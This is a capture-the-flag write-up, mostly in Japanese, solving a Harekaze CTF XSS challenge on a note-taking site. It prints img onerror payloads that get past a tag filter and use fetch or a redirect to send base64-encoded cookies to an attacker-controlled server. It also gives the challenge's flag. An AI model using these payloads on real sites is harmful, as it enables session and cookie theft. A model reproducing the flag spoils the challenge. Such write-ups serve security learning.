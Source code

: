 # Osoraku Secure Note:Web:322pts
メモ帳を作ってみました。  
[http://osoraku-secure-note.harekaze.com](http://osoraku-secure-note.harekaze.com/)  
添付ファイル:  
- [osoraku-secure-note.zip](osoraku-secure-note.zip)  

---

I made a note-taking service.  
[http://osoraku-secure-note.harekaze.com](http://osoraku-secure-note.harekaze.com/)  
Attachments:  
- [osoraku-secure-note.zip](osoraku-secure-note.zip)  

# Solution
サイトにアクセスするとメモサービスのようだ。  
Osoraku Secure Note  
[site.png](site/site.png)  
メモの閲覧画面で`Report this note`とあることからもXSS問題のようだ。  
`<script>alert(1)</script>`はブロックされる。  
ブラックボックスで`<img abc`を入れてみると`<img abc="" <="" div="">`となっていた。  
不完全なタグでXSSが起こせそうだ。  
`<img src="1" onerror="alert(1)"`でalertが発生した。  
あとはdocument.cookieを取得してリダイレクトすればよい。  
`<img src="1" onerror="location.href='https://[リクエストが受け取れるサーバ]/?s='+btoa(document.cookie)"`  
しかし、うまく動作しなかった(ローカルではChrome,Firefoxで動作した)。  
クローラではよくあることなのでfetchすればよい。  
`<img src="1" onerror="fetch('https://[リクエストが受け取れるサーバ]/?s='+btoa(document.cookie));"`  
すると`/?s=ZmxhZz1IYXJla2F6ZUNURntjaHIxc3RtNHNfNGx3NHlzX3JlbTFuZHNfbWVfMGZfNG00ZzRtMX0=`のリクエストが飛んでくる。  
```bash
$ echo "ZmxhZz1IYXJla2F6ZUNURntjaHIxc3RtNHNfNGx3NHlzX3JlbTFuZHNfbWVfMGZfNG00ZzRtMX0=" | base64 -d
flag=HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}
```
デコードするとflagであった。  

## HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}